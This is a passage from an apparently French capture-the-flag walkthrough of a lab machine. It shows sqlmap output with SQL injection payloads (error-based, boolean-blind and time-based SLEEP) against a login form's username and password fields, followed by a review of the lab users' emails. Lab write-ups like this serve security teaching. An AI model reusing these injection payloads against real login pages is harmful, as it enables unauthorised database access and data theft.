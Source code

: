 ```console
    Payload: username=test&password=abc') OR ROW(4449,6121)>(SELECT COUNT(*),CONCAT(0x71766b7871,(SELECT (ELT(4449=4449,1))),0x716a706271,FLOOR(RAND(0)*2))x FROM (SELECT 5477 UNION SELECT 1960 UNION SELECT 6175 UNION SELECT 1968)a GROUP BY x)-- iClr

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test&password=abc') OR SLEEP(5)-- qbfc

Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (7773=7773) THEN 0x74657374 ELSE 0x28 END))-- VTAp&password=abc

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))oXsY)-- RKmF&password=abc

--snip--
[01:11:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 4.1
```

### Bonus n°3 : Analyse des e-mails de chaque utilisateur

Premier mail : James Durbin informe Don Stevens que RoundCube n'a pu être installé en raison d'une version trop ancienne (et sans doute vulnérable) de PHP.

```
Date: Mon, 9 Mar 2009 10:46:56 -0400 (EDT)
Subject: Server setup
From: "James Durbin" <jdurbin@ctf4.sas.upenn.edu>
To: "Don Stevens" <dstevens@ctf4.sas.upenn.edu>

Hey Don,

I think I got the server pretty much set up.  I just have to make some
more adjustments.  Unfortunately I couldn't get RoundCube installed
because our version of PHP is too low.  I'll send more updates as I make
them.

-- 
James Durbin
Webmaster
Prof. Ehks Data Research Center
```

Deuxième mail : Don Stevens annonce le lancement de la plate-forme, malgré de futurs patchs à venir.
